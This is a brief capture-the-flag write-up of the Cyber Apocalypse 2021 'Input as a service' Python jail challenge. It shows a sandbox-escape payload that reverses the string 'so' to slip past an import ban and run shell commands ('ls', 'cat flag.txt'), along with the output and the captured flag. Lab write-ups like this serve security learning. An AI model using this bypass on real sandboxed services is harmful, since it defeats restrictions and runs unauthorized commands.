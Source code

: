 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2021 | Input as a service Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2021
parent: cyber_apocalypse_2021
category: misc
challenge: Input as a service
tags: "misc, ava, python, jail, escape"
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2021</h1>

## Input as a service

> Solved by : ava

* We are given a py-jail 
* https://programmer.help/blogs/python-sandbox-escape.html 
* I used this website as reference, `os` and such imports are banned, so we used string manipulation
* we just reverse the string `os` to `so` and import it and then do `ls` command to * * see the `flag.txt` and then just `cat` the flag
* the code to do is given below

```bash

__import__('so'[::-1]).system('ls')


flag.txt
input_as_a_service.py


__import__('so'[::-1]).system('cat flag.txt')

CHTB{4li3n5_us3_pyth0n2.X?!}
```

